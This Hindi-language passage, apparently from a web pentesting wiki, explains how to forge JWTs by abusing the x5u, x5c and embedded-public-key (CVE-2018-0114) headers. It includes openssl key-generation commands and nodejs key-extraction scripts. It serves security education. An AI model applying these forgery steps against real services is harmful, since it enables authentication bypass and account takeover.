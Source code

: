 कोशिश करें कि **इस हेडर को एक URL में बदलें जो आपके नियंत्रण में हो** और जांचें कि क्या कोई अनुरोध प्राप्त होता है। उस मामले में आप **JWT को छेड़ सकते हैं**।

एक प्रमाणपत्र का उपयोग करके एक नया टोकन बनाने के लिए जो आपके द्वारा नियंत्रित है, आपको प्रमाणपत्र बनाना होगा और सार्वजनिक और निजी कुंजी निकालनी होगी:
```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -out attacker.crt
openssl x509 -pubkey -noout -in attacker.crt > publicKey.pem
```
फिर आप उदाहरण के लिए [**jwt.io**](https://jwt.io) का उपयोग कर सकते हैं ताकि **बनाए गए सार्वजनिक और निजी कुंजियों के साथ नया JWT बनाया जा सके और x5u पैरामीटर को बनाए गए .crt प्रमाणपत्र की ओर इंगित किया जा सके।**

![](<../.gitbook/assets/image (956).png>)

आप इन दोनों कमजोरियों का **SSRFs** के लिए भी दुरुपयोग कर सकते हैं।

#### x5c

यह पैरामीटर **base64 में प्रमाणपत्र** हो सकता है:

![](<../.gitbook/assets/image (1119).png>)

यदि हमलावर **एक स्व-हस्ताक्षरित प्रमाणपत्र उत्पन्न करता है** और संबंधित निजी कुंजी का उपयोग करके एक जाली टोकन बनाता है और "x5c" पैरामीटर के मान को नए उत्पन्न प्रमाणपत्र के साथ बदलता है और अन्य पैरामीटर, अर्थात् n, e और x5t को संशोधित करता है, तो मूल रूप से जाली टोकन सर्वर द्वारा स्वीकार किया जाएगा।
```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -outattacker.crt
openssl x509 -in attacker.crt -text
```
### Embedded Public Key (CVE-2018-0114)

यदि JWT में निम्नलिखित परिदृश्य की तरह एक सार्वजनिक कुंजी एम्बेड की गई है:

![](<../.gitbook/assets/image (624).png>)

निम्नलिखित nodejs स्क्रिप्ट का उपयोग करके उस डेटा से एक सार्वजनिक कुंजी उत्पन्न करना संभव है:
```bash
const NodeRSA = require('node-rsa');
const fs = require('fs');
n ="​ANQ3hoFoDxGQMhYOAc6CHmzz6_Z20hiP1Nvl1IN6phLwBj5gLei3e4e-DDmdwQ1zOueacCun0DkX1gMtTTX36jR8CnoBRBUTmNsQ7zaL3jIU4iXeYGuy7WPZ_TQEuAO1ogVQudn2zTXEiQeh-58tuPeTVpKmqZdS3Mpum3l72GHBbqggo_1h3cyvW4j3QM49YbV35aHV3WbwZJXPzWcDoEnCM4EwnqJiKeSpxvaClxQ5nQo3h2WdnV03C5WuLWaBNhDfC_HItdcaZ3pjImAjo4jkkej6mW3eXqtmDX39uZUyvwBzreMWh6uOu9W0DMdGBbfNNWcaR5tSZEGGj2divE8"​;
e = "AQAB";
const key = new NodeRSA();
var importedKey = key.importKey({n: Buffer.from(n, 'base64'),e: Buffer.from(e, 'base64'),}, 'components-public');
console.log(importedKey.exportKey("public"));
```
नया निजी/सार्वजनिक कुंजी उत्पन्न करना संभव है, नए सार्वजनिक कुंजी को टोकन के अंदर एम्बेड करना और इसका उपयोग करके एक नया हस्ताक्षर उत्पन्न करना:
```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```
आप इस nodejs स्क्रिप्ट का उपयोग करके "n" और "e" प्राप्त कर सकते हैं:
```bash
const NodeRSA = require('node-rsa');
const fs = require('fs');
keyPair = fs.readFileSync("keypair.pem");
const key = new NodeRSA(keyPair);
const publicComponents = key.exportKey('components-public');
console.log('Parameter n: ', publicComponents.n.toString("hex"));
console.log('Parameter e: ', publicComponents.e.toString(16));
```